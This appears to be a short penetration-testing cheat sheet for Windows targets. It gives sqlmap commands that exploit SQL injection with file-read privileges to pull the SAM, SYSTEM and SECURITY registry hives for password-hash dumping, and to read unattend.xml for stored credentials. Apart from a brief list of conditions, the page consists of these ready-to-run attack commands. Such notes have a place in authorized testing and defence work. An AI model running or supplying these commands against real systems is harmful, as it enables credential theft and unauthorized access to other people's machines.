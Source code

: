 # Windows

Search Tag(s): #sqlmap #enumeration-and-discovery #credential-access-and-dumping

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

### Hashdump

```
$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/System32/config/security"

$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/System32/config/system"

$ sqlmap -u "<URL>" --random-agent --file-read="C:/Windows/System32/config/sam"
```

### Group Policy Preferences

```
$ sqlmap -u "<URL>" --random-agent --file-read="C:\Windows\Panther\unattend.xml"
```